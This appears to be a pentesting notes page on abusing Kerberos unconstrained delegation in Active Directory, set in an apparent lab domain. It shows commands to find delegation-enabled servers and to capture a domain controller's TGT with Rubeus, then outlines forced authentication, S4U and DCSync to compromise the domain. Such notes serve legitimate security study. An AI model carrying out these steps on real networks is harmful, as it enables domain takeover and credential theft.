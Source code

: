 # Unconstrained delegation

Unconstrained Delegation is a mechanism in which a server will save the TGT of the users that authenticate to it in order to reuse it to access other services. When unconstrained delegation is enabled, a user could extract the TGT stored in the server.

An attack path could be coercing a privileged account (i.e. a DC machine account) to authenticate to the controlled server with unconstrained delegation enabled.



## List Unconstrained Delegation (UD) servers

```powershell
> Get-ADComputer -Filter { TrustedForDelegation -eq $True }
DistinguishedName : CN=US-WEB,CN=Computers,DC=us,DC=techcorp,DC=local
DNSHostName       : US-Web.us.techcorp.local
Enabled           : True
Name              : US-WEB
ObjectClass       : computer
ObjectGUID        : cb00dc1e-3619-4187-a02b-42f9c964a637
SamAccountName    : US-WEB$
SID               : S-1-5-21-210670787-2521448726-163245708-1110
UserPrincipalName :
```

Here, the server `US-Web` has unconstrained delegation enabled.

_Note: it is expected for domain controllers to have UD enabled._

## Exploit UD

First, on the UD server, run Rubeus in monitor mode:

```powershell
> .\Rubeus.exe monitor /targetuser:US-DC$ /interval:5 /nowrap
```

Rubeus will monitor authentications from user `US-DC$` every 5 seconds.

Then, coerce the target server to authenticate to the UD server, with [coerce-authentication.md](../misc/coerce-authentication.md "mention").

Rubeus catches the TGT that `US-DC$` passes to authenticate. It is then possible to elevate privileges on the `US-DC` machine with [s4u.md](s4u.md "mention"). In addition, if the target server is a domain controller, it is possibly to directly perform a [dcsync.md](dcsync.md "mention") attack to compromise the domain.

Note: it is also possible to compromise a parent forest with this method by coercing the authentication of the DC of the parent domain.
